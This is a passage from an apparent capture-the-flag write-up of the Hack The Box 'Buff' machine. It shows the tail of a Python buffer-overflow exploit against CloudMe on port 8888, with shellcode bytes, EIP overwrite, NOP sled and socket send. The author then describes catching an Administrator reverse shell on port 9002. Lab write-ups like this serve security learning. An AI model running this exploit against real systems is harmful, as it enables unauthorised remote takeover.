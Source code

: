 ```python
payload += b"\xe3\x07\xbf\xd9\xbd\xf1\x79\xb0\x0f\xab\xd3\x6f\xc6"
payload += b"\x3b\xa5\x43\xd9\x3d\xaa\x89\xaf\xa1\x1b\x64\xf6\xde"
payload += b"\x94\xe0\xfe\xa7\xc8\x90\x01\x72\x49\xb0\xe3\x56\xa4"
payload += b"\x59\xba\x33\x05\x04\x3d\xee\x4a\x31\xbe\x1a\x33\xc6"
payload += b"\xde\x6f\x36\x82\x58\x9c\x4a\x9b\x0c\xa2\xf9\x9c\x04"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))       

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

### Gaining system-shell

Im going to save the modified exploit and run it using : 
``python cloudme_exploit.py``. 

Before executing remember that we also need to set up a listening port (the same we used while generating a shellcode) , in this case it would be **9002**

![admin](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/admin.png)


After executing I recieved a shell as **Administrator** which was pretty much the last step for this box.
